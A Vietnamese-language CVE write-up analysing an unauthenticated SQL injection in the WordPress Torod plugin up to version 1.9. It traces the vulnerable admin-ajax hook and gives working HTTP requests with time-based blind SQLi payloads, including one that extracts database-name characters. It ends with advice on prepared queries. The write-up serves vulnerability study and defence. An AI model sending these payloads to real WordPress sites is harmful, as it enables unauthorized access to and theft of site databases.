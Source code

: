 ```yaml
---
title: CVE-2025-30936 Analysis & POC
description: Security Vulnerability in WordPress Torod Plugin.
date: 2025-09-28 20:51:00 +0700
categories: [CVE Analyst]
tags: [analyst, plugin, sqli]
images: ["app.png"]
featuredImage: "app.png"

lightgallery: true

toc:
  auto: false
---
```


<!--more-->

Lỗ hổng xảy ra trên plugin **Torod** của WordPress. Điều này có thể cho phép kẻ tấn công trực tiếp tương tác với cơ sở dữ liệu của bạn, bao gồm không giới hạn ở việc đánh cắp thông tin.

* **CVE ID**: [CVE-2025-30936](https://www.cve.org/CVERecord?id=CVE-2025-30936)
* **Product**: [WordPress Torod Plugin](https://wordpress.org/plugins/torod/)
* **Vulnerability Type**: SQL Injection
* **Affected Versions**: <= 1.9
* **Fixed in**: <= N/A
* **CVSS severity**:  High (9.3)
* **Required Privilege**: Unauthenticated

## Requirements

* **Local WordPress & Debugging**: [Local WordPress and Debugging](https://w41bu1.github.io/2025-08-21-wordpress-local-and-debugging/).
* **Torod**: v1.9

## Analysis

Nguyên nhân cố lõi do ứng dụng chèn trực tiếp dữ liệu từ **POST** request vào SQL query mà không có cơ chế quản kiểm soát chặt chẽ.

### Vulnerable Sink

CVE này không có bản vá nên không thể sử dụng **diff tool** để so sánh sự khác biệt giữa **code lỗi** và **code đã fix lỗi**.

> Trong WordPress, để SQLi xảy ra, ứng dụng phải tương tác với database thông qua biến global `$wpdb`, ta search từ khóa này trong thư mục của plugin để tìm sink.

{{< figure src="search_sink.png" caption="Tìm vị trí sink trong code" alt="Search sink" >}}

👉 Dữ liệu từ `$_POST['country_id']` được đưa thẳng vào truy vấn SQL mà không có cơ chế kiểm soát hợp lệ. Việc chỉ sử dụng `sanitize_text_field()` mới dừng lại ở mức **escape chuỗi**, chứ không đảm bảo tính an toàn. Do đó, lỗ hổng SQLi có thể xảy ra.

* Source: `$_POST['country_id']`
* Sink: `$wpdb->get_results("SELECT * FROM $table_name WHERE country_id = $country_id")`

### How it work?

Lỗ hổng nằm trong hàm `get_regions_and_cities` của class `ajaxyk` thuộc file **inc/ajaxyk.php**. Để xác định nơi nó được gọi, ta tìm kiếm với từ khóa `get_regions_and_cities` trong thư mục chứa plugin.

{{< figure src="search_1.png" caption="Tìm vị trí hàm get_regions_and_cities" alt="Search 1" >}}

👉 `get_regions_and_cities` được construct của class `ajaxyk` gọi làm callback của 2 action hook thông qua hàm `add_action`

* `wp_ajax_get_regions_and_cities`

  * Được viết theo cú pháp `wp_ajax_{$action}`
  * Yêu cầu người dùng đăng nhập

* `wp_ajax_nopriv_get_regions_and_cities`

  * Được viết theo cú pháp `wp_ajax_nopriv_{$action}`
  * Không yêu cầu người dùng đăng nhập

Vì đây là lỗ hổng **unauthenticated** nên ta chỉ quan tâm tới hook `wp_ajax_nopriv_get_regions_and_cities`.

Như vậy khi gửi **POST** request đến `/wp-admin/admin-ajax.php` với tham số

```http
action=wp_ajax_nopriv_get_regions_and_cities&country_id=payload_here
```

* Callback `get_regions_and_cities` được gọi.
* `country_id` được lấy trực tiếp từ request và chèn vào SQL query.
* Query thực thi với payload độc hại.

## Exploit

### Detect SQLi

Gửi **POST request** chứa payload SQLi.

```http
POST /wp-admin/admin-ajax.php HTTP/1.1
Host: localhost
...
Cookie: cookie_here

action=get_regions_and_cities&country_id=(SELECT 1 FROM (SELECT SLEEP(5))a)
```

Khi đó câu query sẽ trở thành:

```sql
SELECT * FROM wp_torod_regions WHERE country_id = (SELECT 1 FROM (SELECT SLEEP(5))a)
```

{{< figure src="time_resp.png" caption="Kết quả phản hồi thời gian" alt="Responsed time" >}}

👉 Dựa trên thời gian phản hồi => payload hoạt động.

**Các technique có thể sử dụng trong trường hợp table rỗng**:

* **UNION**: vì nó không phụ thuộc vào dữ liệu bảng của câu query trước đó, nhưng cần phải tìm được số cột tương ứng.
* **Subquery**:

  * **Subquery trong mệnh đề WHERE**: MySQL có thể tối ưu hóa và bỏ qua subquery nếu kết quả có thể xác định sớm. Nếu bảng không có dữ liệu, kết quả cuối cùng sẽ là tập rỗng, MySQL không cần thực thi `SLEEP()`.
  * **Subquery trong mệnh đề FROM**: Truy vấn con được coi là bảng tạm thời. MySQL phải thực thi truy vấn con này đầu tiên để tạo bảng tạm thời, sau đó mới thực thi truy vấn chính.

{{< figure src="https://www.kdnuggets.com/wp-content/uploads/ferrer_essential_guide_sql_execution_order_6.png" caption="Thứ tự thực thi truy vấn SQL" alt="SQL Excution Order" >}}

### Get First Letter of Database Name

Điều kiện tiên quyết để **dump được hết data** là phải dump được 1 ký tự bất kỳ của tên database, nếu lấy được thì gần như toàn bộ data đều dump được.

Gửi request với **SQLi payload**:

```http
POST /wp-admin/admin-ajax.php HTTP/1.1
Host: localhost
...
Cookie: cookie_here

action=get_regions_and_cities=1&country_id=(SELECT 1 FROM (SELECT IF(SUBSTRING(SCHEMA(),1,1)=0x77, SLEEP(5), 1))a)
```

Sử dụng `SUBSTRING()` để lấy ký tự đầu tiên của **database name**, `IF()` trả về `SLEEP(5)` nếu ký tự đó là `0x77`('w')

Sử dụng hex encoding `w` thành `0x77` vì `country_id` được lấy từ **POST** request trong nên bị escape bởi [magic quotes](https://patchstack.com/academy/wordpress/vulnerabilities/sql-injection/#magic-quotes) trong WordPress và bởi `sanitize_text_field`.

👉 Dựa trên thời gian phản hồi => kí tự đầu tiên đúng là `w`.

## Conclusion

Lỗ hổng **CVE-2025-30936** trong plugin WordPress **Torod** từ phiên bản **1.9** trở lại, xuất phát từ việc truyền trực tiếp input từ người dùng vào SQL query mà không có biện pháp kiểm soát chặt chẽ dẫn đến lỗ hổng SQL Injection.

Chưa có bản vá chính thực nào cho lỗ hổng này.

**Key takeaways**:

* Kiểm soát kỹ input từ người dùng.
* Luôn sử dụng `$wpdb->prepare()` khi làm việc với database trong WordPress để tránh SQL Injection.
* Thường xuyên cập nhật plugin và kiểm tra bảo mật để tránh trở thành mục tiêu tấn công.

## References

[SQL Injection cheat sheet - PortSwigger](https://portswigger.net/web-security/sql-injection/cheat-sheet)

[WordPress Torod Plugin <= 1.9 is vulnerable to SQL Injection](https://patchstack.com/database/wordpress/plugin/torod/vulnerability/wordpress-torod-1-9-sql-injection-vulnerability?_s_id=cve)
